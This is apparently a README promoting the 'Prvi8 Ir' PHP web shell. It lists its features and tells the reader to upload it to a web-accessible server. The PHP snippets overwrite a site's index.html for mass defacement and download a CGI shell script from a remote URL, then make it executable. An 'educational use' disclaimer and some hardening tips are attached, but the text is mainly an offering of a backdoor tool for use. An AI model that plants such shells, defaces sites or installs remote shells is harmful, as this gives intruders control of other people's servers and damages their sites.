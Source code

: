 # Prvi8 Ir PHP Web Shell 🛠️

A comprehensive guide and explanation for the PHP web shell script designed for server management, file operations, and extended control features. This tool is powerful and should be used responsibly and ethically.


![Prvi8-Ir-Web-Shell](https://r00t-shell.com/wp-content/uploads/2025/02/Prvi8-Ir-Web-Shell.png)
*Prvi8-Ir-Web-Shell - Prvi8 Ir Web Shell: Explanation and Usage*


## Table of Contents

- [Overview](#overview)
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
  - [File Deletion](#file-deletion)
  - [File Upload](#file-upload)
  - [Mass Defacement](#mass-defacement)
  - [CGI Shell Installation](#cgi-shell-installation)
- [Security Considerations](#security-considerations)
- [Disclaimer](#disclaimer)
- [Conclusion](#conclusion)

## Overview

The **PHP Web Shell** is a script that provides detailed controls to manage your server. It allows for file management, server information retrieval, mass defacement operations, and even the installation of a CGI-based shell. This README.md outlines its features, setup instructions, and important security measures to ensure safe and ethical operation.

## Features

- **Server Information:** Displays critical server details such as operating system, IP address, software versions, and security settings.
- **File Management:** Enables listing, deleting, renaming, editing, and changing file or directory permissions.
- **File Upload:** Provides a secure interface for uploading files to the server.
- **Mass Defacement:** Facilitates copying a specified file to multiple directories to execute a mass defacement (use responsibly).
- **CGI Shell Installation:** Installs a CGI-based shell to extend server control capabilities.
- **Directory and File Creation:** Supports creating new directories and files on the server for flexible management.

## Installation

1. **Upload the Script:** Place the PHP script on your server in a directory accessible via a web browser.
2. **Set Permissions:** Verify that file and directory permissions are correctly set to prevent unauthorized access.
3. **Configure Your Environment:** Disable dangerous PHP functions (e.g., `exec`, `shell_exec`, `system`) to bolster security.
4. **Access via Browser:** Open your web browser and navigate to the script’s URL to get started.

## Usage

The web shell presents a user-friendly interface with various functionalities. Navigate through the options to manage files, view server details, execute a mass defacement, or install a CGI shell.

### File Deletion

```php
if (is_file('file.txt')) {
    unlink('file.txt');
}

File Upload
if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploaded_file.txt');
}

Mass Defacement
$deface_file = 'deface.html';
$target_dir = '/var/www/html/';
copy($deface_file, $target_dir . 'index.html');

CGI Shell Installation
$cgi_code = file_get_contents('https://example.com/cgi_shell.pl');
file_put_contents('shell.pl', $cgi_code);
chmod('shell.pl', 0755);

Security Considerations
Disable Risky PHP Functions: Functions such as exec, shell_exec, and system should be turned off to reduce potential exploits.
Strict File Upload Controls: Validate all uploads and limit permissions to prevent the execution of harmful scripts.
Use a Firewall: Implement a firewall to monitor traffic and block suspicious activity.
Regular Scans: Conduct periodic security audits and scans to detect and mitigate vulnerabilities.
Disclaimer

Warning: This PHP Web Shell is a powerful tool that can be misused if handled irresponsibly. It is intended solely for educational purposes or for managing servers that you own, or for which you have explicit permission to administer. Unauthorized use is illegal and unethical. Always prioritize security and adhere to legal guidelines when using this tool.

Conclusion

The PHP Web Shell provides extensive functionality for server management with robust features and flexibility. By following the security measures and ethical practices outlined in this document, you can effectively manage server operations without compromising safety. Use this tool responsibly and ensure all activities are conducted in compliance with applicable laws and guidelines.

For further inquiries, bug reports, or contributions, please contact the repository maintainers or refer to the included documentation.
